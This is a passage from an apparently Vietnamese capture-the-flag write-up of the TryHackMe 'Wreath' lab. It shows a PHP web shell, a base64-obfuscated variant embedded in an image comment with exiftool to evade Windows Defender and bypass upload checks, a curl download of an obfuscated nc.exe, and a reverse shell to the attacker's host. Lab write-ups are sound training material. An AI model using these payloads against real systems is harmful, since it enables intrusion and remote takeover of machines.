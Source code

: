 ![](../media/Wreath%20-%20tryhackme_34.png)

Upload và vào đường dẫn file vừa upload để test thử.

![](../media/Wreath%20-%20tryhackme_35.png)

Code php để lấy shell:

<?php

$cmd = $_GET["wreath"];

if(isset($cmd)){

echo "<pre>" . shell_exec($cmd) . "</pre>";

}

die();

?>

Dùng Obfuscator để bypass window defender:

Dùng exiftool để add code vào comment

exiftool -Comment="<?php \$p0=\$_GET[base64_decode('d3JlYXRo')];if(isset(\$p0)){echo base64_decode('PHByZT4=').shell_exec(\$p0).base64_decode('PC9wcmU+');}die();?>" background.jpg.php

Sau đó upload lại ta được như hình

![](../media/Wreath%20-%20tryhackme_36.png)

Tải bản nc đã được obfuscate

git clone https://github.com/int0x33/nc.exe/

cd nc.exe

dùng curl vào web 100

curl http://10.50.85.26//nc64.exe -o c:\\windows\\temp\\nc-dai.exe

![](../media/Wreath%20-%20tryhackme_37.png)

Dùng nc để lắng nghe

![](../media/Wreath%20-%20tryhackme_38.png)

powershell.exe c:\\windows\\temp\\nc-dai.exe 10.50.85.26 443 -e cmd.exe

![](../media/Wreath%20-%20tryhackme_39.png)

Tiến hành enum trên shell được trả về

whoami /priv

whoami /groups

![](../media/Wreath%20-%20tryhackme_40.png)
